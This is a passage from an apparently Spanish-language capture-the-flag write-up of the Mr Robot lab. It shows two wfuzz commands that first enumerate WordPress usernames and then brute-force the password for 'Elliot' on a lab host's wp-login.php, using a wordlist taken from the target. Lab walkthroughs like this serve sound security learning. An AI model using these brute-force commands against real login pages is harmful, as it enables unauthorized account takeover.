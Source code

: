 <img src="/imgs/mrRobot/mrRobot8.png"/>
<p>Ahora vemos que es un login asi que teniendo un diccionario que me proporciono la misma pagina web por que no usarlo contra si misma?,</p>
> wfuzz -t 200 -c --hs "Invalid username" -z file,fsocity.dic  -d "log=FUZZ&pwd=NULL" http://10.10.94.16/wp-login.php
<p></p>
<img src="/imgs/mrRobot/mrRobot9.png"/>
<p>Ok tenemos ya el username <font color="yellow">Eliot</font>, nos falta ahora la contraseña, hagamos de nuevo lo mismo.</p>
> wfuzz -t 200 -c --hc=200  -z file,fsocity.dic -d "log=Elliot&pwd=FUZZ" http://10.10.94.16/wp-login.php
<p></p>
